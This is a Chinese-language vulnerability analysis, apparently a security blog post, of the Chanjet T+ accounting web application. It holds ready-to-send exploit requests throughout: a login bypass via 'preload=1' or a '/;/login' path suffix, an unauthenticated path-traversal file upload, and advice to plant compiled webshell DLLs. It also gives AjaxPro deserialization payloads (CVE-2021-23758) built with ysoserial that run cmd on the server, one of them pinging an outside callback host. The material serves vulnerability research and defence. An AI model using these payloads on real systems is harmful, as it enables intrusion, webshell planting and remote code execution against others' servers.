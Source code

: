 
畅捷通历史漏洞分析

- - -

# 畅捷通历史漏洞分析

## 文件上传

/tplus/SM/SetupAccount/Upload.aspx存在文件上传漏洞  
查看源代码文件发现其是预编译的  
[![](assets/1708940695-cf85a4801132bc55f9ed782edfd5d419.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214195901-717be9ba-cb30-1.png)  
在 bin 目录下找到其.compiled 文件  
[![](assets/1708940695-42e99db084e15f2907bc9403562eb211.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200007-98a92246-cb30-1.png)  
然后反编译 upload.aspx.9475d17f.dll，可以发现其 Page\_Load 方法 (用于处理页面加载时的操作) 中实现了文件上传功能  
只对 Content-Type 进行了校验，但未对文件上传的后缀做校验，默认保存到/SM/SetupAccount/image 目录下  
[![](assets/1708940695-ac9d738a0d17db520327d0b8bde57061.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200119-c3904d18-cb30-1.png)  
尝试进行利用会发现提示：没有登录，请登录  
[![](assets/1708940695-db4e70225d251a975068dfbb5f196b5a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200201-dccc0934-cb30-1.png)  
查看全局文件 Global.asax，其指向 Global.asax.cs 文件，类为 Ufida.T.Web.Http.Global  
[![](assets/1708940695-04dd53bba4ac851cfadc8f99e4ccbf78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200217-e5ecf276-cb30-1.png)  
在 bin 目录中寻找 dll 文件并反编译  
[![](assets/1708940695-d695bc3ab7644b972ce1986a007bd861.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200228-ec75e22e-cb30-1.png)  
在 Ufida.T.Web.Http.Global 类中，发现上面的登录提示位于 Application\_PreRequestHandlerExecute 方法中  
[![](assets/1708940695-241871cf561561de09ddb0b5995b6a46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200241-f434aa68-cb30-1.png)  
对 Application\_PreRequestHandlerExecute 方法进行分析，可以看到一开始就判断了，只要 flag 为 true 或者 RequestChecker.IsBaseRquest(empty) 为 true 就直接 return 了，return 了就不会执行后面的权限判断逻辑了  
[![](assets/1708940695-60eb3cc4f17f99cb380732a83d445481.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200255-fc7fa7ea-cb30-1.png)  
flag 为 true，需要传入的参数 preload 的值为 1，继续看下 IsBaseRquest 方法，设置了一些白名单的关键字，只要传入的 url 包含这些关键字就返回 true  
[![](assets/1708940695-80240a48327fd2895611171383a7c0e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200313-07d0250c-cb31-1.png)  
很明显，我们只要传入 preload=1 就能绕过登录限制了

```bash
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 180
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../1.aspx"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[![](assets/1708940695-2896a384d51b1ed8524ec73dfd984ee2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200342-1917a286-cb31-1.png)  
但因为其是预编译的，所以直接上传.aspx 文件是无法解析的  
[![](assets/1708940695-6bbb0f4de39d64d103d414e8877c7cfc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200415-2c896ff2-cb31-1.png)  
可以上传编译好的 dll 到 bin 目录下进行利用

```bash
C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v /  -p c:\3 c:\4 -fixednames
```

\-p aspx 马所在目录 编译生成文件所保存目录  
在 bin 目录下会生成如下两个文件  
[![](assets/1708940695-1dcc5d4277a084a04ad056e7e138a3f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200454-43e46c60-cb31-1.png)  
将这两个文件传到 web 目录的 bin 目录下就行了  
前面说过，只要传入的 url 包含关键字就能返回 true 导致直接 return，所以我们也可以构造如下请求进行绕过

```bash
POST /tplus/SM/SetupAccount/Upload.aspx/;/login HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 179
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../2.txt"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[![](assets/1708940695-32939d76f03b4269ade2f999985aa61a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200540-5f0ccb68-cb31-1.png)

## 反序列化

web.config 中看到使用了 ajaxpro 组件  
[![](assets/1708940695-9ca182b187839639b89aeee0e28ef45e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200638-81b097ee-cb31-1.png)  
ajaxpro 组件存在 CVE-2021-23758 漏洞，标有属性\[AjaxPro.AjaxMethod\]或\[AjaxMethod\]，并且接收 object 类型参数的方法能够 rce  
根据公开的路由：/tplus/ajaxpro/Ufida.T.CodeBehind.\_PriorityLevel,App\_Code.ashx?method=GetStoreWarehouseByStore  
查看代码可以看到 Ufida.T.CodeBehind.\_PriorityLevel 类的 GetStoreWarehouseByStore 方法刚好满足  
[![](assets/1708940695-e2df61fbcb07c5e222a21db720cad28d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200712-9642caf6-cb31-1.png)  
利用 ysoserialNet 生成 payload

```bash
ysoserial.exe -g objectdataprovider -f JavaScriptSerializer -c "calc" -o raw
```

[![](assets/1708940695-55a7e489ddbd13ce5abd7b29e2068509.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200742-a796bb8c-cb31-1.png)  
发送 poc

```bash
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 604

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ping d4e5b59b8a.ipv6.1433.eu.org."
        }
    }
  }
}
```

[![](assets/1708940695-47ea24b72c6a99596909b9401c5aad91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200819-bdbb2344-cb31-1.png)  
[![](assets/1708940695-810eefd6254ef1867a4b8b984ee96e2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200828-c311039a-cb31-1.png)  
Ufida.T.CodeBehind.\_PriorityLevel 类在 App\_Code.dll 中，在 App\_Code.dll 中进行搜索，发现 Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME\_MemberIntegral\_IntegralAdjust 类的 InitInstance 方法也是满足条件的，poc 如下：

```bash
POST /tplus/ajaxpro/Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME_MemberIntegral_IntegralAdjust,App_Code.ashx?method=InitInstance/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: InitInstance
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 585

{
  "arges":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c calc"
        }
    }
  }
}
```

[![](assets/1708940695-e8745c7859bb794332fe09aa9209bda1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200856-d41e537c-cb31-1.png)  
[![](assets/1708940695-eef065c28a90c8f8c696eca0581ea0c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240214200904-d8fa044a-cb31-1.png)

## 参考

[https://www.ctfiot.com/16694.html](https://www.ctfiot.com/16694.html)
